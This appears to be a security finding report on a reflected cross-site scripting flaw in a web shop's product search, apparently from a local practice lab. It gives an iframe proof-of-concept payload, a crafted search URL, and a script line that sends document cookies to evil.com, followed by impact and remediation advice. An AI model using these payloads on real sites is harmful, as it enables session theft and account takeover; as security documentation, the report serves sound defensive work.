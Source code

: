 
**Category:**  #a3_injection
## Finding  
The **product search functionality** is vulnerable to **reflected Cross-Site Scripting (XSS)**. User-supplied input is not sanitized or encoded before being reflected back into the HTML response. This allows attackers to inject arbitrary JavaScript code.  

### Proof of Concept (PoC) Payload  
```html
<iframe src="javascript:alert('XSS')">
```

When this payload is submitted through the search field, it is executed by the browser, showing that JavaScript injection is possible.  
![Pasted image 20250907154833](/images/Pasted%20image%2020250907154833.png)
## Impact  
- **Account compromise**: An attacker could steal session cookies or JWT tokens.  
- **Phishing**: The attacker could craft malicious pop-ups or redirects to steal user credentials.  
- **Privilege escalation**: If an admin user is targeted, the attacker may gain administrative access.  
- **Defacement**: Injected scripts could modify the appearance of the application.  
**Severity:** **High**
## Attack Scenarios  
1. An attacker embeds a malicious payload into a search URL and tricks a victim into clicking it.  
   Example:  
   ``http://localhost:3000/#/search?q=<iframe src=javascript:alert('lol')>``  

2. More advanced payloads could exfiltrate cookies or data:  
   ``<script>fetch('https://evil.com/steal?c='+document.cookie)</script>``  

3. With the lack of a strict Content-Security-Policy (CSP), the attacker can load external scripts, leading to **full takeover of the victim’s session**.  

## Recommendation  
- **Input Validation**: Reject unexpected characters and apply a whitelist approach to input fields.  
- **Output Encoding**: Encode all user input before rendering in the DOM (e.g., `&lt;` for `<`).  
- **Content Security Policy (CSP)**: Apply a strict CSP that disallows inline scripts and restricts sources.  
- **Testing**: Regularly test with automated tools (e.g., OWASP ZAP, Burp Suite) and manual payloads.  

